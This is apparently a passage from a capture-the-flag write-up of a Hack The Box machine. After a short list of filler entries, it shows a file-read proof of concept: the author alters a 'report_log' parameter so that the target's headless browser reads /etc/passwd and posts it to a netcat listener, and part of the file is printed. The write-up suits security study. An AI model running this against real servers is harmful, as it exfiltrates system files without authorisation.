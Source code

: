     1,alice smells
    1,<b>
    143,aaa
    143,sdfdsaf
    143,asdasdasd
    143,asdsad
    143,asdasd
    143,asdas
    143,asdasd
    143,asdasd
    143,asdasd
    143,asdas
    143,asdasd
    143,asd
    143,asda
    143,asdsadas
    143,asdasdasd
    143,sdffsd
    143,sad
    143,asdasd
    143,asdas
    143,asd
    143,asd


#### File Read POC

It's reasonable to think that perhaps this is trying to open a file
named `report_19_07_2023.log`. I'll update my payload to try to read a
different file. `/etc/passwd` is always a good place to start. I'll
simply update the `report_log` parameter in the request, and the next
time I submit the report, `passwd` arrives at `nc`:


    oxdf@hacky$ nc -lvnp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.190 49876
    POST / HTTP/1.1
    Host: 10.10.14.6:9001
    Connection: keep-alive
    Content-Length: 2084
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36
    Content-Type: text/plain;charset=UTF-8
    Accept: */*
    Origin: http://derailed.htb:3000
    Referer: http://derailed.htb:3000/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin